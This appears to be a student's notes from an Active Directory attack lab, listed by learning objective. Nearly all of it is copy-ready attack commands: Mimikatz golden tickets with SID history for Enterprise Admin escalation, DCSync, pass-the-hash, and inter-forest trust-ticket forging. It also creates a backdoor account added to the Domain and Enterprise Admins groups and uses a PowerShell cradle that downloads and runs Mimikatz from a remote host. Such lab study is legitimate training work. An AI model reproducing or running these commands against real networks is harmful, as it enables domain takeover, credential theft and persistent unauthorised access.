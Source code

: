 Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using dollarcorp's krbtgt hash.
	- `Invoke-Mimikatz -Command '"lsadump::lsa /patch"' `
	- `Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'`
	- `Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"' `
	- `Invoke-Mimikatz -Command '"lsadump::dcsync /user:mcorp\Administrator /domain:moneycorp.local"'`
	- `net user superstar Password123! /add`
	- `net localgroup "Remote Desktop Users" superstar /add`
	- `net localgroup "Administrators" superstar /add`
	- `net group "Domain Admins" superstar /add`
	- `net group "Enterprise Admins" superstar /add`


# Learning Objective 21

- With DA privileges on dollarcorp.moneycorp.local, get access to SharedwithDCorp share on the DC of eurocorp.local forest.
	- Download mimikatz with cradle: `iex (New-Object Net.WebClient).DownloadString('http://172.16.99.27/Invoke-Mimikatz.ps1')`
	- Spawn powershell with pass the hash using svcadmin: `Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8"'`
	- Get inter-forest trust key: `Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local` (grab `* rc4_hmac_nt` hash)
	- Generate ticket with rc4 hash: `Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:3beb57d6bef432b8f731acd9322b0225 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi"'`
	- Request TGS: `.\asktgs.exe .\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local`
	- Load ticket to memory: `.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi`
	- Interact with File System: `ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\`


# Learning Objective 22

Get a reverse shell on a SQL server in eurocorp forest by abusing database links from dcorp-mssql.
